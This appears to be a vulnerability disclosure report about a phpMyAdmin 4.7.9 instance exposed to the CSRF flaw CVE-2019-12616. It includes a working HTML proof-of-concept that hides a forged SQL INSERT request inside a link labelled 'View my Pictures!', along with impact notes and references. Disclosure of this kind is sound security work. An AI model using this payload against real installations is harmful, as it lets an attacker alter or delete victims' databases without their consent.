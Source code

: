 

# PhpMyAdmin instance vulnerable to CVE-2019-12616


## Summary
An issue was discovered in phpMyAdmin before 4.9.0. A vulnerability was found that allows an attacker to trigger a CSRF attack against a phpMyAdmin user. The attacker can trick the user, for instance through a broken <img> tag pointing at the victim's phpMyAdmin database, and the attacker can potentially deliver a payload (such as a specific INSERT or DELETE statement) to the victim.

Installed version 4.7.9 (check screenshot) which is vulnerable (phpMyAdmin <= 4.9.0)  

## Steps To Reproduce

PhpMyAdmin endpoint  
* $URL

Create a HTML file with the following content
```
<html>
<head>
  <title>POC CVE-2019-12616</title>
</head>
<body>
<a href="$URL/tbl_sql.php?sql_query=INSERT+INTO+`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK('')%2C+''%2C+''%2C+''%2C+'')&show_query=1&db=phpmyadmin&table=pma__bookmark">View my Pictures!</a>
</body>
</html>
```

An attacker can create a page using the above HTML code, trick the victim into clicking the URL and performing Insert/Delete actions to the database. 


## Impact
An attacker can perform arbitrary actions on behalf of the victim, such as execute arbitrary INSERT or DELETE statements, delete an arbitrary server on the Setup page.

 
### Supporting Material/References
* https://nvd.nist.gov/vuln/detail/CVE-2019-12616
* **Exploit** https://www.exploit-db.com/exploits/46982

